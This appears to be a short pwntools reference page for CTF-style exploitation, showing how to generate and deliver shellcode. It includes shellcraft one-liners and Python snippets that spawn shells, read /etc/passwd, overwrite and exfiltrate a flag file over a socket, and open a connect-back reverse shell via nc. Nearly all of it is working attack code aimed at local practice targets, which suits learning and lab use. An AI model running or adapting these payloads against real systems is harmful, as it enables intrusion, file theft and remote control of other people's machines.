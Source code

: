 ## Shellcodes with pwntools

```
arch = [ 'linux', 'amd64', 'arm' ]

shell = 'sh', 'dupsh'
io    = 'cat', 'write_file', 'ls', 'sendfile'
nw    = 'connectback'
```


### sh 
* tested on i386, amd64, ARM

``shellcraft -c i386 sh -f r | strace -ifx demo32 -``

### dupsh
* tested on i386, amd64, ARM

``shellcraft -c i386 dupsh 1 -f r | strace -ifx demo32 -``

### cat
* tested on i386, amd64, ARM

``shellcraft -c i386 cat /etc/passwd  -f r | strace -ifx demo32 -``

### write_file = open_file + write_file 
* tested on i386, amd64, ARM

```python
s = 'this file has been overwritted by me'

sc = ''
sc += asm(shellcode.open_file('./flag', 0x2))
sc += asm(shellcode.write_file(3, s, len(s)))
```

### ls
* tested on i386, ARM
* done with arm64's getdents but not works properly.

``shellcraft -c i386 ls /etc -f r | demo32 -``

```python
sc += asm(shellcode.ls('/etc/', out_fd=4))

s = remote('localhost', 31337)
s.send(sc + '\n')
while 1:
    rv = s.recv(1540)
    if len(rv) == 0:
        break
    print parse_getdents(rv)
```

### sendfile = open_file + sendfile
* tested on i386, amd64, ARM

```python
#!python

from pwn import *
context('i386', 'linux')

HOST = 'localhost'
PORT = 31337

s = remote(HOST, PORT)

sc = ''
sc += asm(shellcode.open_file('./flag'))
sc += asm(shellcode.sendfile(in_fd=3, out_fd=4))

s.send(sc + '\n')
print s.recvall()
```

### connectback
* tested on i386, thumb
* amd64(unstable)
* arm - arm_to_thumb() + connectback() 

``shellcraft -c i386 connectback localhost 31338 3 -f r | nc localhost 31337``
